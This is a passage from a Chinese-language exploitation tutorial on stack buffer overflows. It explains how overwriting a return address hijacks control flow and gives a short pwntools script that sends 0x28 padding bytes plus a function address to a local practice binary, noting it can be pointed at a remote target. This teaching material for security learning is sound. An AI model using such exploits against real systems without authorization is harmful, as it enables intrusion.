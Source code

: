 对应的栈帧变化如下（添加底色的汇编指令为即将执行的指令，`call read`为GIF的开始）

![img](../.gitbook/assets/stack\_overflow.gif)

由上图可以看出，只要我们适当地控制输入的值就可以实现修改返回地址，从而实现控制程序的程序流。

#### 字符串栈溢出劫持执行流

为了快速构造合适的输入值，实现对程序流的控制，这里引入里一个基于python的工具`pwntools`

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

target_address = elf.sym["func"]

payload = b"A" * 0x28
payload += p64(target_address)

p.send(payload)

p.interactive()
```

上面这个脚本中：

`p`为进程对象（可以将`process`换成`remote(address, port)`使其变成远程连接的对象）

`elf`为可执行程序对象，`elf.sym["func"]`为获取可执行程序中符号`func`的地址

`p64`为将数字根据端序转为64位的字节流。

`p.send(payload)`为将`payload`发送到对应的进程或者远程连接。

`p.interactive()`为保持交互，将输入方从脚本改为用户。

**注意** python3版本的`pwntools`的payload的字符串之前需要加上`b`前缀

下图即为脚本的运行结果。

![image-20230723212310053](../.gitbook/assets/image-20230723212310053.png)
